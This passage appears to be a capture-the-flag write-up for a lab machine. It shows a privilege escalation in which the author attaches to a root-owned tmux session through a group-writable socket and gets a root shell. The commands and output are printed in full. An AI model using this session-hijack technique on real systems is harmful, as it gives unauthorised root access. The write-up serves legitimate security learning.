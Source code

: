 There's `tmux` running as `root` user.

From Hacktricks, I found a guideline to hijack session of `tmux`.

![](attachments/valentine_4.png)

```bash
hype@Valentine:/tmp$ /usr/bin/tmux -S /.devs/dev_sess ls
0: 1 windows (created Thu Feb 20 19:35:22 2025) [80x24]


hype@Valentine:/tmp$ ls -al /.devs/dev_sess
srw-rw---- 1 root hype 0 Feb 20 19:35 /.devs/dev_sess


hype@Valentine:/tmp$ /usr/bin/tmux -S /.devs/dev_sess attach -t 0


root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/# whoami
root
```

I got a `root` shell!
